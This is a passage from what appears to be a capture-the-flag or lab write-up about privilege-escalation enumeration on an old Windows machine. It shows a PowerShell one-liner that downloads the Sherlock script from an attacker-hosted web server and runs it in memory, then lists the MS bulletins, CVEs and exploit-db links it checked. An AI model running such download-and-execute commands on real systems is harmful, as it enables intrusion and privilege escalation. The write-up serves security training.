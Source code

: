 ## Run Watson/Sherlock to Locate Vulnerabilities

This is an old box and Watson is not working, so tried Sherlock.

https://github.com/rasta-mouse/Sherlock.git

Place "Find-AllVulns" at the bottom of the script.

```bash
PS C:\Users\kostas\Desktop>IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.19:8000/Sherloc
k.ps1')



Title      : User Mode to Ring (KiTrap0D)
MSBulletin : MS10-015
CVEID      : 2010-0232
Link       : https://www.exploit-db.com/exploits/11199/
VulnStatus : Not supported on 64-bit systems

Title      : Task Scheduler .XML
MSBulletin : MS10-092
CVEID      : 2010-3338, 2010-3888
Link       : https://www.exploit-db.com/exploits/19930/
VulnStatus : Not Vulnerable

Title      : NTUserMessageCall Win32k Kernel Pool Overflow
MSBulletin : MS13-053
CVEID      : 2013-1300
Link       : https://www.exploit-db.com/exploits/33213/
VulnStatus : Not supported on 64-bit systems

Title      : TrackPopupMenuEx Win32k NULL Page
MSBulletin : MS13-081
CVEID      : 2013-3881
Link       : https://www.exploit-db.com/exploits/31576/
VulnStatus : Not supported on 64-bit systems

Title      : TrackPopupMenu Win32k Null Pointer Dereference
MSBulletin : MS14-058
CVEID      : 2014-4113
Link       : https://www.exploit-db.com/exploits/35101/
VulnStatus : Not Vulnerable

Title      : ClientCopyImage Win32k
MSBulletin : MS15-051
CVEID      : 2015-1701, 2015-2433
Link       : https://www.exploit-db.com/exploits/37367/
VulnStatus : Not Vulnerable

Title      : Font Driver Buffer Overflow
MSBulletin : MS15-078
CVEID      : 2015-2426, 2015-2433
Link       : https://www.exploit-db.com/exploits/38222/
VulnStatus : Not Vulnerable

Title      : 'mrxdav.sys' WebDAV
MSBulletin : MS16-016
CVEID      : 2016-0051
Link       : https://www.exploit-db.com/exploits/40085/
VulnStatus : Not supported on 64-bit systems

Title      : Secondary Logon Handle
```